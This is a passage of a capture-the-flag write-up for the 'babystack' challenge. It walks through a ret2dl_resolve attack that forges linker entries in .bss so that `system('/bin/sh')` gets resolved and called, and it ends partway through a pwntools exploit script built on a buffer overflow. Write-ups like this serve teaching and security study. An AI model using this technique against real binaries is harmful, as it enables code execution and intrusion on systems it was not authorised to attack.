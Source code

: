 So we can see strings in there for `read` and `alarm`, so libc can link them. This essentially tells libc what to link. For this, we will just put the string `system`. The previous entry already took care of the index.

Also one last thing, since we need a pointer to `/bin/sh`, we will just store that at the end of the bss.

#### Time to ret 2 dl_resolve

So that will be the entries we store in the bss. We are ready to actually execute the `ret_2_dl_resolve`. Leaving off from the `read` call we made, we will end up back in the `scanInput` function which we will exploit the buffer overflow again to take control of `eip`. With that we will call the `0x80482f0` function (the one that is jumped to @ `plt+6`, and starts the linking process). We will pass it the `.rel.plt` index for our fake entry. Since our fake entry starts at the beginning of the `bss` (`0x804a020`), and this index is just the distance from the start of the `.rel.plt` section (`0x80482b0`) to the entry, this index will just be `0x804a020 - 0x80482b0 = 0x1d70`. After that we will pass our arguments to the function, which in this case will just be the address of `/bin/sh` which we stored in the `bss`.

## Exploit

Bringing it all together, we have the following exploit:

```
# This exploit is based off of: https://github.com/sajjadium/ctf-writeups/tree/master/0CTFQuals/2018/babystack

from pwn import *

target = process('./babystack')
#gdb.attach(target)

elf = ELF('babystack')

# Establish starts of various sections
bss = 0x804a020

dynstr = 0x804822c

dynsym = 0x80481cc

relplt = 0x80482b0

# Establish two functions

scanInput = p32(0x804843b)
resolve = p32(0x80482f0)

# Establish size of second payload

payload1_size = 43

# Our first scan
# This will call read to scan in our fake entries into the plt
# Then return back to scanInput to re-exploit the bug

payload0 = ""

payload0 += "0"*44                        # Filler from start of input to return address
payload0 += p32(elf.symbols['read'])    # Return read
payload0 += scanInput                    # After the read call, return to scan input
payload0 += p32(0)                        # Read via stdin
payload0 += p32(bss)                    # Scan into the start of the bss
payload0 += p32(payload1_size)            # How much data to scan in

```